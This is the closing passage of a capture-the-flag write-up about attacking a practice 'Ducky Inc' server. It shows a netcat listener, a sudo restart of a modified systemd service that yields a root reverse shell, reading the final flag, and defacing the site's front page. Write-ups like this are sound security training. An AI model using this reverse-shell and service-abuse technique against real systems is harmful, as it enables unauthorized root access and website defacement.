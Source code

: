 Now we just need to set up a listener.

```bash
rxfa@attacker:~/Desktop/CTFs$ nc -lnvp 1234
Ncat: Version 7.94 ( https://nmap.org/ncat )
Ncat: Listening on [::]:1234
Ncat: Listening on 0.0.0.0:1234
```

Now, we restart the duckyinc.service and have our reverse shell connecting back with our attacker machine.

```bash
server-admin@duckyinc:/tmp$ sudo systemctl daemon-reload
server-admin@duckyinc:/tmp$ sudo systemctl restart duckyinc.service
```

### Root Access

And there it is!

We got root access.

Now we can deface Ducky Inc's front page(which is done by changing the index.html file in the /templates folder in any way really) and get the last flag.

```bash
Ncat: Connection from 10.10.50.133:34254.
/bin/sh: 0: can't access tty; job control turned off
# cd /root
# ls
flag3.txt
# cat ./flag3.txt  
************************* 
```

With all objectives completed, including the defacement of the front page, we've successfully completed our mission and secured our reward.

This concludes our adventure in exacting revenge upon Rubber Ducky Inc., as commissioned by none other than Billy Joel.
